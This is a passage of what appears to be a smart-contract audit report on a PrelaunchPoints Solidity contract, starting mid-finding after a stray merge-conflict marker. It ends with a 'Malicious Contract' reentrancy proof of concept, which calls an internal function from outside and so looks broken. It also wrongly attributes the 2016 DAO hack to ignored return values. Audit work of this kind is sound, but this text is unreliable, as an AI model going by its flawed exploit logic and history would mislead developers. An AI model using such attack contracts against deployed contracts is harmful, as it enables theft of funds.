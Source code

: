 <<<<<<< HEAD
             // Ignoring the return value of approve, leading to potential silent failure
             // If approval fails, subsequent operations relying on this approval might also fail
             prelaunchPoints._sellToken.approve(exchangeProxy, amount);
         }
     }
     ```
   - **Real-World Example**:
     - **DAO Hack** (2016): Highlighted how ignoring the outcomes of critical operations can lead to significant losses. The failure to properly handle transaction outcomes contributed to the exploit that drained funds from the DAO.

## Low-Risk Issues

### Low-Level Calls (`low-level-calls`)

- **Description**: Low-level calls can be used to interact with contracts but might bypass some of the safety checks provided by Solidity's higher-level constructs.
- **Files and Lines**:
  - `src/PrelaunchPoints.sol` [Lines: 530-547](src/PrelaunchPoints.sol#L530-L547)
    ```javascript
    function _fillQuote(IERC20 token, uint256 amount, bytes memory swapCallData) internal {
        (bool success,) = address(exchangeProxy).call{value: 0}(swapCallData);
        require(success, "Swap failed");
    }
    ```
    *Explanation*: The use of low-level `call` can potentially lead to reentrancy attacks or unexpected behavior. Ensure that all external calls are handled securely.

- **Impact**: 
  - Low-level calls can introduce risks such as reentrancy attacks if not properly managed.

- **Mitigation**: 
  - Use high-level abstractions where possible and ensure thorough validation of all data and success indicators.

- **Proof of Concept (PoC)**

   The PoC demonstrates how low-level calls can be exploited through reentrancy attacks. 

   **Malicious Contract**
   ```javascript
   // Malicious Contract
   contract Malicious {
       PrelaunchPoints public prelaunchPoints;
       address public owner;

       constructor(address _prelaunchPoints) {
           prelaunchPoints = PrelaunchPoints(_prelaunchPoints);
           owner = msg.sender;
       }

       // Fallback function to reenter the _fillQuote function
       receive() external payable {
           if (address(prelaunchPoints).balance > 0) {
               // Call _fillQuote again to exploit reentrancy
               bytes memory swapCallData = abi.encodeWithSignature("someFunction()");
               prelaunchPoints._fillQuote(IERC20(address(0)), 0, swapCallData);
           }
       }

       function exploit() external {
           bytes memory swapCallData = abi.encodeWithSignature("someFunction()");
           prelaunchPoints._fillQuote(IERC20(address(0)), 0, swapCallData);
       }
   }
   ```